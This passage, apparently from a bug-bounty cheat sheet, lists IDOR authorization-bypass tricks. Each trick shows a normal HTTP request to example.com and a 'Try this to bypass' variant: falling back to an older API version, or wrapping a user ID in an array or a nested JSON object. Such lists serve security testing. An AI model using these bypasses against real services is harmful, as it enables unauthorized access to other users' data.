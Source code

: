 4.  Test on outdated API Versions

```
POST /v2/GetData HTTP/1
Host: example.com
...

id=123
```

> Try this to bypass

```
POST /v1/GetData HTTP/1
Host: example.com
...

id=123
```

5.  Wrap the ID with an array.

```
POST /api/get_profile HTTP/1
Host: example.com
...

{"user_id":111}
```

> Try this to bypass

```
POST /api/get_profile HTTP/1
Host: example.com
...

{"id":[111]}
```

6.  Wrap the ID with a JSON object

```
POST /api/get_profile HTTP/1
Host: example.com
...

{"user_id":111}
```

> Try this to bypass

```
POST /api/get_profile HTTP/1
Host: example.com
...

{"user_id":{"user_id":111}}
```

